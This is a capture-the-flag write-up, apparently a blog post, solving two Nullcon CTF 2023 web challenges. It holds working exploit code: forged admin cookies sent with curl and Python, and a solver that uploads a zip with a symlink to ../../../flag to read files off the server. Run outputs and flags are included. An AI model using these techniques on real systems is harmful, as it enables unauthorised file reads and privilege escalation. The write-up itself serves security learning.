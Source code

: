 ```yaml
---
title: "Nullcon CTF 2023"
description: ""
summary: ""
date: 2023-03-10T19:25:00+07:00
lastmod: 2023-03-11T07:41:00+07:00
draft: false
menu:
  posts:
    parent: ""
    identifier: "nullconctf-2023"
weight: 910
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  noindex: false # false (default) or true
---
```


[https://ctftime.org/event/1900](https://ctftime.org/event/1900)

<br>
<p align="center">
  <a href="https://ctftime.org/event/1900" target="_blank">
    <img src="https://ctftime.org/media/cache/a3/83/a3838829dc3fcbbebcc062b58d405747.png">
  </a>
</p>

### Challs
| Category | Challenge |
| ---------| --------- |
| Web      | [reguest](#reguest) |
| Web      | [zpr](#zpr) |

<br>

### reguest

<details>
  <summary>Description</summary>
  
  > Desc: HTTP requests and libraries are hard. Sometimes they do not behave as expected, which might lead to vulnerabilities. <br>
  > http://52.59.124.14:10014 <br>

  > [chall.zip](https://github.com/nopedawn/CTF/blob/main/NullconCTF23/reguest/chall.zip)
  
</details>

We can send an HTTP GET request using the cURL utility to the address [http://52.59.124.14:10014](http://52.59.124.14:10014), including a cookie in the request header.

```python3
import requests

url = 'http://52.59.124.14:10014'
cookies = {'role': 'admin', 'really': 'yes'}
resp = requests.get(url, cookies=cookies)

print(resp.content.decode())
```

The -b argument is used to specify the cookie that will be included in the request header. The value of the cookie is `role=admin; really=yes`. This cookie can be used by the server for authentication or other settings.

In this case, the request is targeted to a web service that requires authorization at the 'admin' level and requests confirmation from the user ('really=yes').

Or use this simple payloads

```bash
$ curl -b "role=admin; really=yes" http://52.59.124.14:10014

Usage: Look at the code ;-)

Overwriting cookies with default value! This must be secure!
Prepared request cookies are: [('really', 'yes'), ('role', 'guest')]
Sending request...
Request cookies are: [('really', 'yes'), ('role', 'guest')]

Someone's drunk oO

Response is: Admin: ENO{R3Qu3sts_4r3_s0m3T1m3s_we1rd_dont_get_confused}
```

<details>
  <summary>Flag</summary>
  
  > `ENO{R3Qu3sts_4r3_s0m3T1m3s_we1rd_dont_get_confused}`
  
</details>

<br>

### zpr

<details>
  <summary>Description</summary>
  
  > My colleague built a service which shows the contents of a zip file. He says there's nothing to worry about.... <br>
  > http://52.59.124.14:10015 + http://52.59.124.14:10016
  
  > [chall.zip](https://github.com/nopedawn/CTF/blob/main/NullconCTF23/zpr/chall.zip)
  
</details>

Create a txt file `coba.txt` that has text `../../../flag` indicate as the path. The soft link will refer to the original file, so changes made to the original file will also be visible in the symlink.

```bash
$ ln -sfn ../../../flag coba.txt
```

The `coba.txt` file will be blank and it turn into a symlink

<details open>
<summary>coba.txt</summary>
<pre>

</pre>
</details>

Then zip into file named `test.zip` that contains the file `coba.txt`. The --symlink argument in this command indicates that the soft link coba.txt will be included in the zip file. Send the test.zip file to the server using the POST method with the help of the curl library.

```bash
$ zip test.zip coba.txt --symlink
```

Make an HTTP GET request to the server `https://52.59.124.14:10016` to access the file `coba.txt` located in the directory. In the HTTP request header, the -v argument in the curl command indicates that the displayed output will include verbose information about the HTTP request process. Therefore, in addition to the contents of the coba.txt file, the output of the curl command will display information such as status code, header, and server response time.

Final script solver

```python3
import os
import requests

os.system('ln -sfn ../../../flag coba.txt')
os.system('zip test.zip coba.txt --symlink')

files = {'file': ('test.zip', open('test.zip', 'rb'), 'application/zip')}
response = requests.post('http://52.59.124.14:10015/', files=files)

print(response.text)

if "coba.txt" in response.text:
    filepath = response.text.strip()
    filepath_parts = filepath.split("/")
    directory = filepath_parts[-2]
    url = f"http://52.59.124.14:10016/{directory}/coba.txt"
    os.system(f"curl -v {url}")
```

Running

```bash
$ python3 solver.py
updating: coba.txt (stored 0%)
Found a file: /tmp/data/eef19175f624ce410f0eb8aff0e87525/bd361131b238f364b10edcc61a356ff9.zip
Found a file: /tmp/data/eef19175f624ce410f0eb8aff0e87525/coba.txt
Find your files at http://...:8088/eef19175f624ce410f0eb8aff0e87525/

*   Trying 52.59.124.14:10016...
* Connected to 52.59.124.14 (52.59.124.14) port 10016 (#0)
> GET /eef19175f624ce410f0eb8aff0e87525/coba.txt HTTP/1.1
> Host: 52.59.124.14:10016
> User-Agent: curl/7.81.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Server: SimpleHTTP/0.6 Python/3.11.2
< Date: Fri, 10 Mar 2023 12:57:01 GMT
< Content-type: text/plain
< Content-Length: 46
< Last-Modified: Thu, 09 Mar 2023 09:00:53 GMT
<
ENO{Z1pF1L3s_C4N_B3_Dangerous_so_b3_c4r3ful!}
* Closing connection 0
```

<details>
  <summary>Flag</summary>
  
  > `ENO{Z1pF1L3s_C4N_B3_Dangerous_so_b3_c4r3ful!}`
  
</details>